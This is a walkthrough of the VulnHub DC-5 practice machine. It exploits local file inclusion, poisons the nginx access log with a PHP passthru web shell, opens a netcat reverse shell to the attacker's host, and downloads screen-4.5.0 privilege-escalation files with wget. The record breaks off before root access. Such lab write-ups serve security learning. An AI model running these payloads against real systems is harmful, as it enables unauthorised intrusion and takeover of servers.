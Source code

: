 # DC: 5
[VulnHub link](https://www.vulnhub.com/entry/dc-5,314/)  
By DCAU

* As with the first 4 iterations of the DC-series, we are first greeted with a login page that requires users to specify both the username and the password:
![](/screenshots/dc-5/loginInitial.jpg)
* Common login credentials such as `admin:admin` and `admin:password` do not work.
* Run `nmap 10.0.2.*`, where we find 5 live hosts:
![](/screenshots/dc-5/nmapScan.jpg)
* After eliminating our own IP address and our router gateway IP address, it is very likely that the vulnerable VM's IP address is `10.0.2.11`.
* The host is running 2 services, HTTP at port 80 and rpcbind at port 111. Both ports are found to be open.
* Run `nmap -p- -A 10.0.2.11`:
![](/screenshots/dc-5/hostFullScan.jpg)
* Looking at the services which the vulnerable VM is running, we can see an nginx web server running on port 80 (which is open), as with the previous iteration of the dc series.
* Opening `http://10.0.2.11` reveals a site with paragraphs of random sample texts greeting us:
![](/screenshots/dc-5/siteWebServer.jpg)
* At this point in time, I could not be more stuck. I tried using Burp Suite on the Contact form as was done in the previous walkthrough for DC-4, but to no avail.
* A hint that I got was that when I repeatedly submitted the Contact form, the copyright year at the bottom may differ:
![](/screenshots/dc-5/copyrightYears.jpg)
* It was either 2017, 2018, 2019 or 2020. Interesting. The copyright year on any of the other pages would be 2019.
* Even when I was repeatedly refreshing `http://10.0.2.11/thankyou.php` which had no parameters, the year was still changing. A contact form that is submitted would result in the URL being `http://10.0.2.11/thankyou.php?firstname=&lastname=&country=australia&subject=`.
* On hindsight, the only indication that I got from looking at the page source, is that the closing HTML tag for footer was rather out of place:
![](/screenshots/dc-5/contactFormSubmitPageSource.jpg)
* While I understood that we could modify the data (within the various options) being sent, what I did not know was that we could attempt our own options as well. Such an option would be `file`, where we would want to read the contents of specific files within the web server. It turns out that this vulnerability is called **Local File Inclusion** (LFI).
* After understanding this, we will now attempt to get the contents of `/etc/passwd`, by entering `http://10.0.2.11/thankyou.php?file=/etc/passwd`:
![](/screenshots/dc-5/etcPasswdFile.jpg)
* Interestingly, if we did not include any file to load in the parameter, the footer contents would disappear, i.e. no Copyright © 2019 would be retrieved.
* Also, `/etc/passwd` seems to be one of the common files used to test for LFI, because I guess virtually everyone would have that file on their web servers. Attempting to load a file that does not exist may lead us to be mistaken that LFI is not present.
* As much as we now know a list of users, we do not have a login page or ssh to attempt our logins.
* It turns out that to get our shell, we would have to exploit it through the *nginx access logs*.
* First, we have to find out where the access logs are located. A common location of the file is `/var/log/nginx/access.log`. Run: `http://10.0.2.11/thankyou.php?file=/var/log/nginx/access.log`:
![](/screenshots/dc-5/nginxAccessLog.jpg)
* Note: For Apache2 web servers, the location is also likely to be the same, except that it would be found under the `apache2` directory in `/var/log` instead.
* We can now confirm that we are able to retrieve the access logs, which span many, many pages.
* I accessed `http://10.0.2.11/testing-out-that-i-am-able-to-read-the-access-logs`, just to test out what we know about the access logs - that these files record all requests processed by the server:
![](/screenshots/dc-5/nginxAccessLogTest.jpg)
* Note: The latest records are found at the bottom of the log file.
* Next, run `nc 10.0.2.11 80`, then enter `GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1`:
![](/screenshots/dc-5/emptyGETresponse.jpg)
* Note: I did not get back any response from my GET request, as compared to the walkthroughs by others who solved this challenge. They got back a response with status code `400 Bad Request`, where if you were to see the status code of my 'empty' GET request below, it is a `408 Request Timeut` error. Interesting.
* `passthru` allows us to execute an external program and display its raw output.
* Note: The browswer is not used to send this GET request because it will URL-encode the request, making it useless.
* Refresh the page, i.e. visit `http://10.0.2.11/thankyou.php?file=/var/log/nginx/access.log` and we see that there is an 'empty' GET request, which is really the request made when we executed the PHP code:
![](/screenshots/dc-5/emptyGetRequest.jpg)
* After that, visit `http://10.0.2.11/thankyou.php?file=/var/log/nginx/access.log&cmd=id` to confirm that we are able to run commands. We should expect to see the output of running `id` in the access logs, exactly at the log entry where our 'empty' GET request was made:
![](/screenshots/dc-5/commandExecutionAccessLogs.jpg)
* Note: Visiting the page with the parameter `cmd=id` immediately after sending the GET request via netcat will result in the output of `id` being displayed as the latest one. I visited a few pages in between for the example above to illustrate my point that the output of the command will only appear exactly where the netcat GET request was made.
![](/screenshots/dc-5/commandExecutionImmediateAccessLogs.jpg)
* Next, we will establish our shell to the web server by running a netcat listener `nc -v -l -p 1234` on our Kali VM terminal, and then visiting `http://10.0.2.11/thankyou.php?file=/var/log/nginx/access.log&cmd=nc 10.0.2.4 1234 -c /bin/sh` on our browser:
![](/screenshots/dc-5/ncEstablishShell.jpg)
* Note: Replace `10.0.2.4` with the IP address of your Kali VM, `1234` with a port number of your choice just for the purpose of establishing this connection, and `/bin/sh` with `/bin/bash` if you would like (there is no difference between the 2 here).
* As expected, we are user `www-data` and it is time to find a way to escalate our privileges!
* Before we do so, run `python -c 'import pty; pty.spawn("/bin/bash")'` to spawn our interactive TTY shell.
* Next, run `find / -user root -perm -4000 -print 2>/dev/null` to search for setuid binaries which we can possibly exploit:
![](/screenshots/dc-5/setuidBinaries.jpg)
* Having executed this `find` command many times over our past challenges, we are more or less able to distinguish if there are any unusual binaries in the output. Here, it is `/bin/screen-4.5.0`.
* Googling about /bin/screen-4.5.0 led me to find out about the existence of 2 exploits relating to it on Exploit DB - 41152 and 41154. I could not quite understand the former, so we will use the latter.
* To upload the exploit script, run `python -m SimpleHTTPServer 4567` on our Kali VM, then navigate to `/tmp` on our netcat shell before running `wget http://10.0.2.4:4567/41154.sh`:
![](/screenshots/dc-5/uploadExploitScript.jpg)
* Note: According to [Python For Beginners](https://www.pythonforbeginners.com/modules-in-python/how-to-use-simplehttpserver/), the SimpleHTTPServer module that comes with Python is a simple HTTP server that provides standard GET and HEAD request handlers. An advantage with the built-in HTTP server is that we do not have to install and configure anything.
* Note: `4567` is also a port number of your choice just for the purpose of establishing this connection.
* Once it has been downloaded to the web server /tmp directory, `chmod +x 41154.sh` to give it executable permissions.
* Running `./41154.sh` results in an error as shown in the boxed-up area:
![](/screenshots/dc-5/failedScreenExploit.jpg)
* Perhaps the exploit script could not be executed in one shot. Let us try to split the original script into its respective files by ourselves, and do the compilation manually.
* First, we will do a quick analysis of the original exploit script:
![](/screenshots/dc-5/exploitCode.jpg)
* In summary, the original exploit script is split into 3 files - 2 .c files and 1 script.
* We will next compile the 2 respective .c files, bearing in mind that the `/tmp` parts of the command (as indicated in the original exploit script) are removed because my version of files are stored in `/root`.
* Compile `libhax.c` using the command `gcc -fPIC -shared -ldl -o libhax.so libhax.c`:
![](/screenshots/dc-5/libhaxCompilation.jpg)
* Compile `rootshell.c` using the command `gcc -o rootshell rootshell.c`:
![](/screenshots/dc-5/rootshellCompilation.jpg)
* We will name our script `screenroot.sh`, although you can name it otherwise. This name is the file name of the original exploit script.
![](/screenshots/dc-5/screenRootScriptModified.jpg)
* Time to upload all 3 files to the vulnerable web server:
1. `wget http://10.0.2.4:4567/libhax.so`
2. `wget http://10.0.2.4:4567/rootshell`
3. `wget http://10.0.2.4:4567/screenroot.sh`
![](/screenshots/dc-5/uploadExploitFiles.jpg)
* The status code `200 OK` tells us that the upload is successful.
* `chmod +x screenroot.sh` to give it executable permissions:
![](/screenshots/dc-5/filesInTmpDirectory.jpg)
* To-be-continued...

# Other walkthroughs visited
1. https://bzyo.github.io/dc-5/